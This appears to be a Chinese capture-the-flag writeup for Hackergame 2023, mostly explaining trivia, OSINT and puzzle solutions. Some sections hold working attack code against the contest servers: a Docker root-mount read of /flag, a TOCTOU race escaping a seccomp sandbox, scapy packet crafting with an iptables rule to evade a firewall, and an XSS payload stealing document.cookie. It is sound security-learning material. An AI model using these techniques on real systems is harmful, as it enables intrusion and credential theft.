

# Hackergame 2023 Writeup

## 前言

[~~又是一年 Hackergame，题目依然高质量，依然对萌新友好，各种梗也依然玩得飞起。~~](https://github.com/USTC-Hackergame/hackergame2021-writeups/tree/master/official/%E8%B6%85%20OI%20%E7%9A%84%20Writeup%20%E6%A8%A1%E6%8B%9F%E5%99%A8)

今年题目还是一如既往的有趣，要是明年有空的话还来参加。

## Hackergame 启动

点提交，看到多了个 similarity 的 query，填入 100 回车即可。

## 猫咪小测

今年猫咪问答能知道得分，可以推出哪道题错了，非常友好。

### 想要借阅世界图书出版公司出版的《A Classical Introduction To Modern Number Theory 2nd ed.》，应当前往中国科学技术大学西区图书馆的哪一层？（30 分）

[图书馆系统](http://opac.lib.ustc.edu.cn/opac/item.php?marc_no=576a723457436a3951576c3236595839686c564673673d3d&list=1) 里能搜到这本书，可是没看到哪里写几楼啊？
楼层不会太高，可以手动猜。

写 wp 时才发现鼠标悬浮在馆藏地上会显示。
~~这交互设计行不行啊，明明上面的“高新园区综合书库”是直接标出楼层的。~~

### 今年 arXiv 网站的天体物理版块上有人发表了一篇关于「可观测宇宙中的鸡的密度上限」的论文，请问论文中作者计算出的鸡密度函数的上限为 10 的多少次方每立方秒差距

用关键词 density of chicken in universe 能搜到[论文](https://arxiv.org/abs/2303.17626)。

### 为了支持 TCP BBR 拥塞控制算法，在编译 Linux 内核时应该配置好哪一条内核选项？

搜 “linux kernel bbr config”。

### 🥒🥒🥒：「我……从没觉得写类型标注有意思过」。在一篇论文中，作者给出了能够让 Python 的类型检查器 MyPY mypy 陷入死循环的代码，并证明 Python 的类型检查和停机问题一样困难。请问这篇论文发表在今年的哪个学术会议上？

搜 “mypy type annotation infinite loop” 找到[论文](https://drops.dagstuhl.de/opus/volltexte/2023/18237/pdf/LIPIcs-ECOOP-2023-44.pdf)。从右下角 LOGO 猜测是 ECOOP。

~~受这一届 GeekGame 影响，把年份写上去提交了发现答案错误。~~


## 更深更暗

往下拖发现拖不到底，直接 F12 搜索 flag。

~~习惯性全选提交上去收获了一个答案错误，重提交发现一血没了呜呜呜。~~

## 旅行照片 3.0

~~又到了苦手的社工题，去年猜航班的阴影还未散去，不过至少有步骤分了。~~

### 1、你还记得与学长见面这天是哪一天吗？（格式：yyyy-mm-dd）

学长戴着 stat physics 28 的胸牌，可以搜到这个会议期间是 8/7 到 8/11，手动猜一猜可以知道答案是 8/10 号。

### 2、在学校该展厅展示的所有同种金色奖牌的得主中，出生最晚者获奖时所在的研究所缩写是什么？

搜奖牌上的人名 m. koshiba 能看到一篇诺贝尔奖的[新闻](https://www.icepp.s.u-tokyo.ac.jp/news/Nobel_prize_en.html)，新闻也写出了实验室名 ICRR。

### 3、帐篷中活动招募志愿者时用于收集报名信息的在线问卷的编号（以字母 S 开头后接数字）是多少？

Google lens 识图搜到是上野公园，那么看一看过去的[活动](https://www.uenopark.info/ad2023/)吧。
符合时间的只有梅酒活动，官网的志愿者招募[页面](https://umeshu-matsuri.jp/tokyo_staff/)上就有问卷地址。

### 4、学长购买自己的博物馆门票时，花费了多少日元？

这一问做得我心态有点崩。找了个地图把附近所有博物馆的成人票、学生票、特殊展票、通常展票等等全试了一遍都不对。
又无奈地以 10 日元为步进从 500 手动爆破到了 5000，还是都不对。
随手试了个 0，我草怎么对了？然后才发现博物馆官网有说合作大学免票。

### 5、学长当天晚上需要在哪栋标志性建筑物的附近集合呢？

题目说了乘船，那当然是看看有什么轮渡能“欣赏东京的迷人夜景和闪耀的彩虹大桥”。调研了半天哪些邮轮能看到这些夜景，找了找对应的出发点，把下一问做完提交答案时候发现不对。因为我第 6 问答案比较确定，估计是这题有问题，于是又读了遍题目发现说了是学术之旅。~~唉，这么多邮轮攻略白做了，就当云旅游了吧。~~

又回去找会议的[安排](https://statphys28.org/images/timetable_230708.jpg)，能看到 8/10 晚上正好有个晚会，搜[晚会信息](https://statphys28.org/banquet.html)就知道在 Yasuda Auditorium (安田讲堂)。

~~这种会议都这么开心的嘛，是我没见过世面了。~~

### 6、进站时，你在 JR 上野站中央检票口外看到「ボタン＆カフリンクス」活动正在销售动物周边商品，该活动张贴的粉色背景海报上是什么动物（记作 A，两个汉字）？ 在出站处附近建筑的屋顶广告牌上，每小时都会顽皮出现的那只 3D 动物是什么品种？

海报比较容易找到，搜 上野 ボタン＆カフリンクス jr 就能[看到](https://plaza.rakuten.co.jp/ayumilife/diary/202308110000/)。

屋顶广告牌卡了我好久。没仔细审题，找了半天上野站附近的广告牌，完全没搜到。再次读题看到说了是出站口，原来不是上野站啊。。。
从马里奥图能猜到是涩谷站附近的 Nintendo TOKYO。继续搜 jr涩谷 广告牌 2023 08 终于看到了传说中的 3d 广告牌。

## 赛博井字棋

再次受 GeekGame 影响先去看 cookie，cookie 一眼 jwt 但解开来看不懂，开始看请求。
可以指定 x y 坐标，那就下在对方已经下了的位置强制获胜。

## 奶奶的睡前 flag 故事

没看题面直接下载了附件进行一个 pngcheck，嗯 IEND 后面有 IDAT chunk？研究了会儿怎么拼回去，发现过的人越来越多了。
这么多人过，应该没那么复杂吧？怀疑漏信息了，看了下发现说了是系统没升级的谷歌亲儿子，又给了截图，不难想到是前段时间的 aCropalypse bug ，甚至有个[网站](https://acropalypse.app/)能恢复。

## 组委会模拟器

这题梗玩得飞起，页面也十分精美，以至于没看请求时我还以为是类似 websocket 方式拿了实时生成的数据，F12 发现并不是这样，只是前端延迟显示，那么写个脚本做一下自动撤回。

```python
from datetime import datetime
import time
import requests


COOKIE = {
    "session": ""
}


def get_messages():
    r = requests.post("http://202.38.93.111:10021/api/getMessages", cookies=COOKIE)
    r.raise_for_status()
    return r.json()["messages"]


def revoke(msg_ig):
    r = requests.post(
        "http://202.38.93.111:10021/api/deleteMessage",
        cookies=COOKIE,
        json={"id": msg_ig},
    )
    r.raise_for_status()
    print(r.json())
    assert r.json()["success"]


def get_flag():
    r = requests.post("http://202.38.93.111:10021/api/getflag", cookies=COOKIE)
    r.raise_for_status()
    print(r.json())


msg = get_messages()
start = datetime.now()
for i, m in enumerate(msg):
    if "hack[" in m["text"]:
        while 1:
            now = datetime.now()
            if (now - start).seconds > m["delay"]:
                break
            time.sleep(0.5)
        revoke(i)


get_flag()
```

## 虫

题目说了是通过无线信道传输图片的方式，搜到是业余无线电的东西，继续一顿搜索搜到了 GNU Radio 这个软件，装了半天环境还不会用。
又看到通过人数刷刷地涨，怀疑方向错了，继续搜索知道了是 SSTV，找一个开源工具成功提取。

`sstv -d insect.wav -o insect.png`

## JSON ⊂ YAML?

### JSON ⊄ YAML 1.1

~~这一问靠[搜索](https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files)捡了个一血~~

`{"a": "\uD834\uDD1E"}`

### JSON ⊄ YAML 1.2

YAML 1.2 [规范](http://yaml.org/spec/1.2-old/spec.html#id2759572) 提到了不能有重复 key。
`{"a":"a", "a":"a"}`

## Git? Git!

看标题就知道要问数据恢复。用 git reflog 命令就可以看到各分支 HEAD 的变更历史。checkout 到之前的 commit 找 flag 即可。
顺带一提，GitHub [文档](https://docs.github.com/en/enterprise-cloud@latest/authentication/keeping-your-account-and-data-secure/removing-sensitive-data-from-a-repository) 记载了怎么彻底删除误提交的文件。

## HTTP 集邮册

MDN 阅读题。

### 100 Continue
```
GET / HTTP/1.1\r\n
Expect: 100-continue \r\n
Host: example.com\r\n\r\n
```

### 200 OK
```
GET / HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

### 206 Partial Content
```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=1-2\r\n\r\n
```

### 304 Not Modified
```
GET / HTTP/1.1\r\n
If-None-Match: "64dbafc8-267"\r\n
Host: example.com\r\n\r\n
```

### 400 Bad Request
```
123\r\n\r\n
```

### 404 Not Found
```
GET /1 HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

### 405 Method Not Allowed
```
OPTIONS / HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

### 412 Precondition Failed
```
GET / HTTP/1.1\r\n
If-Match: "xxx"\r\n
Host: example.com\r\n\r\n
```

### 413 Payload Too Large
```
POST / HTTP/1.1\r\n
Content-Length: 30000000\r\n
Host: example.com\r\n\r\n
```

### 414 URI Too Long
```
GET /aaaa（此处省略...） HTTP/1.1\r\n
Host: www.example.com\r\n
Accept-Language: a\r\n\r\n
```

### 416 Range Not Satisfiable
```
GET / HTTP/1.1\r\n
Host: example.com\r\n
Range: bytes=-10000000-2 \r\n\r\n
```

### 505 HTTP Version Not Supported
```
GET / HTTP/233\r\n
Host: example.com\r\n\r\n
```

### 无状态码

这一问我是手改请求时多删了一个空格无意间触发的。

```
GET /HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

## Docker for Everyone

光看题面以为是暴露了 docker socket 的逃逸题，进了题目发现直接有 host 的 shell。
~~不过也是控制 docker socket，没差多少~~

docker daemon 是 root 起的，比我们权限高，那总归有办法通过 docker 读。

试了一下 docker cp 没权限，但是能通过挂载方式在容器里访问。

```bash
docker run -it --rm -v /:/tmp/ alpine
cat /tmp/dev/shm/flag
```

## 惜字如金 2.0

这个 2.0 比 1.0 简单，~~是回退 bug.~~

读源码能发现，这是一个单表替换加密，密码表原本每一行有 24 个字符，惜字如金后每行各缺了一个字符。

先在各行末尾补一个 1，看看替换完怎么样。

`5laulyoufeepr3cvees3df7weparsn3sfr1gwn!}`

开头的 `flag{` 变成了 `5laul`，3 个字符需要恢复，先从这里入手吧。
以恢复首字母的 f 举例，密文是 53， 代表码表里第 54 个字符应该是 f。
从第 53 个字符也是 f 就可推出这里运用了删除重复辅音的规则，补上 f 并去除末尾的 1 这一行就恢复了。
恢复完这 3 个字符打印的 `flag{you-ve-r3cover3d-7he-an5w3r-r1ght?}` 看着没什么问题，提交发现对了。

## 🪐 高频率星球

`asciinema cat asciinema_restore.rec > output.txt` 然后把中间的控制字符删掉就可以了。

## 🪐 小型大语言模型星球

第一问玩一玩就出来了，第二问没想法就直接爆破了，得到一堆很神奇的答案，比如 `0e` 和 `.5` 就能拿到 flag1，`d}` 和 `j}` 能拿到 flag2.

~~后面两问拷打了半天 GPT，得到了 transformer 模型可能可逆的回复和相关的代码，试了好多没一个能用的。~~

## 🪐 流式星球

先按大小连蒙带猜一共 130 帧左右，然后爆破一下可能的分辨率，选个相对能看点的 640x480 的尺寸导出所有帧凑合看。

~~嗯，我知道挺惨不忍睹的，能看清 flag 就行。~~


```python
import numpy as np
from PIL import Image

buffer = np.fromfile("video.bin", dtype=np.uint8)

frame_count = 130
frame_height = 200
frame_width = 320

for i in range(frame_height, 1000, 10):
    for j in range(frame_width, 1000, 10):
        if frame_count * i * j * 3 > len(buffer):
            continue
        buffer_new = buffer[: frame_count * i * j * 3].reshape(frame_count, i, j, 3)
        im = Image.fromarray(buffer_new[0])
        im.save(f"{i}x{j}.png")

frame_height = 480
frame_width = 640

buffer_new = buffer[: frame_count * frame_height * frame_width * 3].reshape(
    frame_count, frame_height, frame_width, 3
)

for i in range(frame_count):
    im = Image.fromarray(buffer_new[i])
    im.save(f"{i}.png")
```

## 🪐 低带宽星球

拿 webp 压一下就过了。

``cwebp image.png -o image.webp -m 6 -lossless``

## Komm, süsser Flagge

~~非常好奇这题服务器收了多少个包，发了多少个 RST，不知道有没有统计数据。~~

### 我的 POST

规则检测单个 tcp 包里没有 POST 的字符串，那么可以将 POST 拆开来发。

```python
from socket import socket, AF_INET, SOCK_STREAM, SO_REUSEADDR, SOL_SOCKET

HOST, PORT = "202.38.93.111", 18080
TOKEN = ""
request = f"ST / HTTP/1.1\r\nHost: {HOST}:{PORT}\r\nContent-Length: 99\r\n\r\n{TOKEN}".encode()
response = ""

with socket(AF_INET, SOCK_STREAM) as sock:
    sock.setsockopt(SOL_SOCKET, SO_REUSEADDR, 1)
    sock.connect((HOST, PORT))
    sock.sendall(b"PO")
    sock.sendall(request)
    while True:
        recv = sock.recv(1024)
        if recv == b"":
            break
        response += recv.decode()
    print(response)
```

### 我的 P

规则看着很迷惑，似乎在检查什么东西是不是 P (ascii 0x50)，用的还是 u32 方式，猜测包里只有 2 个字节就不工作了，把第一问的脚本改了个端口号试了一下就过了。

### 我的 GET

规则要求每个包前 50 个字符必须有 `GET / HTTP`，因为 SYN 不带 GET，所以无法正常握手，造成 Connection Refused 的现象。

看了一下 TCP 包头里有个 data offset，于是打算暴力出奇迹，用 `libnetfilter_queue` 拦截下外发的包，在数据开头添加 `GET / HTTP`，修改 data offset，修正完 IP 和 TCP 头里的 checksum 再发出去。这样的效果是，`GET / HTTP` 会被当作 tcp option 的一部分。不料服务器似乎没见过这种操作，一个劲 RST。

实在没什么办法 debug，于是我进行一个控制变量法，还是每个包头带 `GET / HTTP`，但是这次从头手搓 TCP 握手了，再试试。
尝试后惊喜地发现，发送 SYN 后服务器 ACK 了！但是由于内核的 TCP 栈没见过正在 ACK 的包，以迅雷不及掩耳的速度回了个 RST，所以我加了个防火墙规则 drop 发出的 RST。

``sudo iptables -A OUTPUT -p tcp --tcp-flags RST RST -s 192.168.24.3 --dport 18082 -j DROP``

这样发送的 GET 请求服务器识别并正确回复了！

当我以为大功告成时，发现把 GET 换成 POST 以后服务器开始 400 了。。。

又 debug 了半天找不到哪里有问题，只好再看看有没有什么更符合标准的方式，然后发现 tcp 的 option 是可以放任意数据的，那么就不需要手改 data offset 了。

```python
from scapy.all import *
import random

HTTP_GET = b"GET / HTTP"
SRC_IP = "192.168.24.3"
SRC_PORT = random.randint(1024, 65535)
DST_IP = "192.168.23.1"
DST_PORT = 18082
TOKEN = ""
HTTP_PAYLOAD = f"POST / HTTP/1.1\r\nHost: {DST_IP}:{DST_PORT}\r\nContent-Length: 99\r\n\r\n{TOKEN}".encode()

ip = IP(src=SRC_IP, dst=DST_IP)
SYN = TCP(
    sport=SRC_PORT, dport=DST_PORT, flags="S", seq=1000, options=[(233, HTTP_GET)]
)
SYNACK = sr1(ip / SYN)

ACK = TCP(
    sport=SRC_PORT,
    dport=DST_PORT,
    flags="A",
    seq=SYN.seq + 1,
    ack=SYNACK.seq + 1,
    options=[(233, HTTP_GET)],
)
send(ip / ACK)

http = TCP(
    sport=SRC_PORT,
    dport=DST_PORT,
    flags="AP",
    seq=SYN.seq + 1,
    ack=SYNACK.seq + 1,
    options=[(233, HTTP_GET)],
)
http.add_payload(HTTP_PAYLOAD)
http.show2()
send(ip / http)
```

## 为什么要打开 /flag

是我这届最喜欢的轻松愉快不用逆向的小 binary 题。
拿到了一血十分开心。

### LD_PRELOAD, love!

LD_PRELOAD 只对动态链接 libc 的有效，所以静态编译就能过。
我的话直接拿 go 糊了个。

## 都是 seccomp 的错

题目是由 ~~[KDE程序](https://github.com/USTC-Hackergame/hackergame2022-writeups/blob/master/behind-the-scenes/files/18.png) 之一的~~出题人的 [crate](https://crates.io/crates/greenhook) 修改的。
crate 描述里说了可能被 TOCTOU (Time of check to time of use) 攻击，那么创建一个线程创造 race 即可。
另外比较坑的是 syscall 限制的比较严，甚至 pthread 所使用的 clone3 都不让用。

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sched.h>
#include <string.h>
#include <signal.h>
#include <fcntl.h>

static char file[100];

static int child_func() {
  for (int i = 0; i < 1000000; ++i) {
    strcpy(file, "/fake");
    strcpy(file, "/flag");
  }
  return 0;
}

int main(int argc, char ** argv) {
  const int STACK_SIZE = 65536;
  char *stack = malloc(STACK_SIZE);
  if (!stack) {
    perror("malloc");
    exit(1);
  }

  strcpy(file, "/fake");

  char buffer[100];
  memset(buffer, 0, 100);

  if (clone(child_func, stack + STACK_SIZE, CLONE_VM | SIGCHLD, NULL) == -1) {
    perror("clone");
    exit(1);
  }

  for (int i = 0; i < 1000; ++i) {
    int fd = open(file, O_RDONLY);
    if (fd == -1) {
      perror("open");
      continue;
    }
    read(fd, &buffer, 100);
    printf("read: %s", buffer);
  }
  return 0;
}
```

## 异星歧途

大概了解一下游戏的处理器就能做，大体流程就是看代码，光看代码不能确定的就多尝试，记得多存几个档防止爆炸，~~说多了都是泪。~~

## 微积分计算小练习 2.0

~~难度上看这题才是真正的 2.0。~~

随便玩玩会发现可以用 \x escape，用双引号可以逃出字符串，那么只要想个办法把要执行的 payload 从一个字数限制相对宽松的地方传进去即可，我用的是 url。
不过用 url 的话 payload 里就不能有被 urlencode 的字符了，比如双引号。

评论
```
\x3csvg "+location+"\x3e
```

网页
```html
<script>
    function load() {
        window.addEventListener("message", (event) => {
            let flag = event.data;
            const string_to_char_code = ([...string]) => {
                const array = string.map((char) => {
                    return char.charCodeAt(0);
                });
                return array.join(",");
            };
            let part = string_to_char_code(encoded.slice(0, 20));
            window.open(`http://web/result?/onload=f=document.body.firstElementChild.children[3];f.children[1].children[1].value=String.romCharCode(${part});f.children[2].click()`);
        });
        window.open("http://web/result?/onload=window.opener.postMessage(document.cookie,String.fromCharCode(42))");
    }
</script>
<body onload=load()>
```

flag 比较长，要分好几次发。拿出来以后用 CyberChef base64 decode + url decode 即可。

看官方 wp 感觉自己走了不少弯路，一个是传 payload 可以用 location.hash 或者是 name，这样就不涉及 urlencode 问题了。
还有就是明明不用把 flag 发回来处理的，用这个 post message 方法是查怎么避开 cors 时看到的，~~不知不觉就用了。~~


## 逆向工程不需要 F5

题目下载下来看到一堆 dll，粗略分析了一下，flag 长度不含 `flag{}` 一共 32 字节，有了这个信息我直接一个 angr 的启动，然后用各种姿势都没跑出结果。。。
于是换用 ida 的符号执行插件 ponce 做，在 main 里判断不正确的地方下断，跑 32 次就能把 flag 跑出来了。



官方题解提供了 angr 脚本，hook 了 input 部分，我没跑出结果大概是碰上 angr 的 scanf bug 了。

## 关于没做出的题目

### O(1) 用户登录系统

考虑过 merkle tree 的 second preimage attack，但是输入部分不像能把 admin:password 的父节点直接插入的样子。
完全没想到构造符合条件的 hash 能很快。

### 小 Z 的谜题

尝试了 z3 求解和用 c++ 重写后符号执行，估计哪里写出 bug 了，都是 unsat，没时间 debug 了只好放弃。